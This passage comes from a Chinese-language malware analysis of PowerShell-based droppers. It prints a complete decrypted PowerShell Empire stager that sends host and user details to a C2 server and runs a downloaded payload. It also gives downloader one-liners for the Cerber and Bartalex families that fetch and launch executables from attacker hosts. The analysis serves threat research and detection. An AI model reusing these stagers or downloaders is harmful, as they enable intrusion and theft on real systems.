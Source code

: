 本例中，异或密钥为“0192023a7bbd73250516f069df18b500“，使用该密钥解密后的脚本为PowerShell Empire的stager脚本，其功能是利用POST方式将系统信息提交给C2服务器，并下载Empire的第一阶段载荷。

```
'FunCtION StaRt-NegoTiATe{param($s,$SK,$UA="lol")Add-TypE -AsSeMBLY SYSteM.SECUriTY;AdD-TypE -aSSEMBly SYSTEm.CoRe;$ErrorActionPreference = "SilentlyContinue";$E=[SYstem.TExT.ENCoDING]::ASCII;$AES=NeW-OBjecT SYsTeM.SeCURiTy.CRyptoGrapHY.AESCRyPToSeRVicePrOvIdER;$IV = [BYTE] 0..255 | GeT-RandOm -coUNt 16;$AES.Mode="CBC"; $AES.Key=$e.GetBytes($SK); $AES.IV = $IV;$cSp = NEW-OBJECT SYStEM.SecURity.CrYPtOGRAPHy.CSpPaRAmeTERS;$csP.FLAGs = $cSP.FlagS -boR [SYsTeM.SeCurITY.CryptogRaphy.CsPPROViDErFlAGs]::UsEMAcHINEKeySTore;$Rs = NEW-ObJecT SySTEm.SecURIty.CRyptograPHy.RSACRYPTOSERvICEPROViDeR -ARGuMenTLIsT 2048,$CSP;$rk=$Rs.TOXMlStriNg($FALse);$r=1..16|FOrEacH-ObJEcT{GEt-RANDOm -MAx 26};$ID=('ABCDEFGHKLMNPRSTUVWXYZ123456789'[$r] -joIN '');$iB=$E.gEtbYTes($Rk);$eb=$IV+$AES.CReaTeENCRyptoR().TRANSFoRmFiNalBLOcK($Ib,0,$Ib.LENgtH);IF(-Not $wc){$wc=nEw-oBJECt sYstEM.Net.WEBCLient;$WC.ProxY = [SySTem.NET.WeBReqUEsT]::GETSysTeMWEbPRoxY();$Wc.Proxy.CrEDentIals = [SYStem.Net.CredENtIalCAche]::DEFAUlTCRedentIaLs;}$wc.Headers.Add("User-Agent",$UA);$wc.Headers.Add("Cookie","SESSIONID=$ID");$raw=$wc.UploadData($s+"index.jsp","POST",$eb);$dE=$E.GETSTRing($Rs.deCrYPt($raw,$FalSE));$EpOCh=$de[0..9] -joIN'';$KeY=$dE[10..$de.LengTH] -jOIn '';$AES=NEw-ObJEct SYsTEm.SEcurity.CRyPtoGRAPHY.AEsCrYPtOSerVIcEPRoVidEr;$IV = [ByTe] 0..255 | GET-RaNdom -couNT 16;$AES.Mode="CBC"; $AES.Key=$e.GetBytes($key); $AES.IV = $IV;$i=$S+'|'+[EnvIrONment]::UsERDOmAInNAmE+'|'+[ENvIRonmeNt]::UsERNaME+'|'+[ENvIRONmeNt]::MaChinEName;$P=(gwMi WIN32_NeTWorkAdAPTErCoNfIGurAtioN|WherE{$_.IPAdDRess}|SelECt -ExpANd IPADDReSS);$ip = @{$TrUe=$P[0];$FalsE=$P}[$P.LeNgTh -lt 6];If(!$IP -or $ip.trIm() -EQ '') {$Ip='0.0.0.0'};$i+="|$ip";$I+='|'+(GEt-WmIOBJect WIn32_OpERAtiNgSystEM).NAME.splIT('|')[0];if(([Environment]::UserName).ToLower() -eq "system"){$i+='|True'}else {$i += "|" +([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")}$n=[SySTeM.DIAgNoSTICS.ProceSS]::GetCUrREntPRocEss();$i+='|'+$n.PROCEssNAMe+'|'+$n.ID;$I += '|' + $PSVerSIOnTabLe.PSVerSioN.MAjOR;$ib2=$E.getbYteS($I);$EB2=$IV+$AES.CrEATEEncrYPToR().TrANSFORmFinALBLOCk($Ib2,0,$Ib2.LenGTH);$wc.Headers.Add("User-Agent",$UA);$raw=$wc.UploadData($s+"index.php","POST",$eb2);$AES=NeW-Object SYSteM.SEcuRIty.CRYPToGrapHY.AesCrYPToSeRVIcEProvIder;$AES.Mode="CBC";$IV = $rAw[0..15];$AES.Key=$e.GETBYtes($key);$AES.IV = $IV;IEX $([SYstEM.TeXt.EnCoDInG]::ASCII.GetStrInG( $($AES.CrEateDECRYpTOr().TRANsFOrMFinAlBloCk($rAW[16..$RaW.LENGtH],0,$raw.LENGth-16))));$AES=$NuLL;$s2=$NuLl;$WC=$nUll;$eB2=$nULl;$RAW=$NuLl;$IV=$NULL;$WC=$NULl;$I=$NUlL;$iB2=$null;[GC]::COlLEcT();Invoke-Empire -Servers @(($s -split "/")[0..2] -join "/") -SessionKey $key -SessionID $ID -Epoch $epoch;} Start-Negotiate -s "http://23.239.12.15:8080/" -SK '0192023a7bbd73250516f069df18b500' -UA $u;'
```

**4.3 Downloader DFSP 2X（81个样本，占比1.98%）**

此类变种与前一类变种一样，但它使用另一个PoweShell实例来执行下载任务。这类变种同样都与Cerber下载器文档有关。

```
PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('http://93.174.94[.]135/~kali/ketty.exe', $env:APPDATAprofilest.exe );Start-Process ( $env:APPDATAprofilest.exe )
```

**4.4 Downloader DFSP DPL（24个样本，占比0.59%）**

这是使用“DownloadFile -&gt; Start-Process“技术的另一类下载器变种，有两种不同表现形式。这类样本中多数与Bartalex有关，可以用来反映这个广为人知的Office宏生成器的最新变化情况。

完全表现形式：

```
($deploylocation=$env:temp+'fleeb.exe');(New-Object System.Net.WebClient).DownloadFile('http://worldnit[.]com/abu.exe', $deploylocation);Start-Process $deploylocation
```
